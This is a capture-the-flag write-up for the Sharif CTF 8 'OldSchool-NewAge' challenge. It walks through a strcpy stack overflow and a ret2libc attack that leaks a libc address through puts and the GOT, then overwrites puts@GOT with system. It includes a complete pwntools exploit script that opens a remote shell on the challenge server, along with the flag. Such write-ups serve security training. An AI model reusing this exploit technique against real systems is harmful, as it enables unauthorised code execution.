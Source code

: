 # __Sharif CTF 8__ 
## _OldSchool-NewAge_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Reverse | 75 | merrychap

**Description:** 

> It all started with a leak bang
nc ctf.sharif.edu 4801
Alternative: nc 213.233.161.38 4801

## Solution
### Binary recon
We are given [vuln4](./vuln4) binary and [libc.so.6](./libc.so.6). Let's take a look into the binary. After some reversing we get the next code:
```c
int copy_it(char *s1)
{
  char s2;

  strcpy(&s2, s1);
  return 0;
}

int main(int argc, const char **argv, const char **envp) {
  char s;

  puts("This time it is randomized...");
  puts("You should find puts yourself");
  fflush(stdout);
  fgets(&s, 200, stdin);
  copy_it(&s);
  puts("done!");
  return 0;
}
```
That's all binary. The most interesting function here is ```copy_it``` function. If we see this function in assembly and understand how much stack is allocated for local variables, then we will understand what to do next. 

<p align="center">
  <img src="screens/copy_it_asm.png">
</p>


### Finding the vulnerability
```asm
sub     esp, 18h
sub     esp, 8
```
Taking into account that we input 200 characters in ```s1```, then it's obvious that here is an easy buffer overflow. Alright, we can overflow ```RET``` of ```copy_it``` function, but what should we do next? How do we get the shell? 

### Exploitation of the binary
The idea is to make **```ret2libc```** attack. To make this, we have to leak a libc address. If we change the flow of the binary after overwriting ```RET``` into first ```puts``` function, making address of GOT as an argument for this ```puts```, then we leak a libc address. Pretty.

This overwriting gives us a chance to input characters one more time. Knowing libc address and the fact that argument for ```fgets``` lays right before ```RET``` address of ```copy_it``` on a stack (just debug and you will see it), then we can write into GOT entry.

Let's write address of calculated ```system``` into ```puts``` entry in GOT, then the last ```puts``` will give us the shell.


### Exploit
You can look at [exploit.py](./exploit.py) or look at just code below:

```python
import struct

from pwn import *


def to_n(addr):
    return struct.unpack('I', addr)[0]


def to_addr(n):
    return struct.pack('I', n)


def main():
    libc = ELF('./libc.so.6')
    
    binsh = to_addr(list(libc.search('/bin/sh'))[0])

    fgets      = '\x3e\x85\x04\x08'
    puts_addr  = '\x03\x85\x04\x08'
    puts_got   = '\x74\x98\x04\x08'
    fflush_got = '\x68\x98\x04\x08'

    pc = remote('ctf.sharif.edu', 4801)

    # puts_got here is argument for the next fgets.
    pc.sendline('AAAAAAAAAAAAAAAAAA' + puts_got + puts_addr + fflush_got)

    print(repr(pc.recvline()))
    print(repr(pc.recvline()))
    
    libc_base = to_n(pc.recvline()[:4]) - libc.symbols['fflush']
    binsh     = to_addr(to_n(binsh) + libc_base)
    system    = to_addr(libc_base + libc.symbols['system'])
    
    print('System address:  ' + hex(to_n(system)))
    print('/bin/sh address: ' + hex(to_n(binsh)))

    # BBBB is RET address of system and binsh is the first argument
    pc.sendline('AAAAAAAAAAAAAAAAAAAAAA' + system + 'BBBB' + binsh)

    pc.interactive()

if __name__ == '__main__':
    main()
```

### And this is subtitle
Text under the subtitle

> SharifCTF{7af9dab81dff481772609b97492d6899}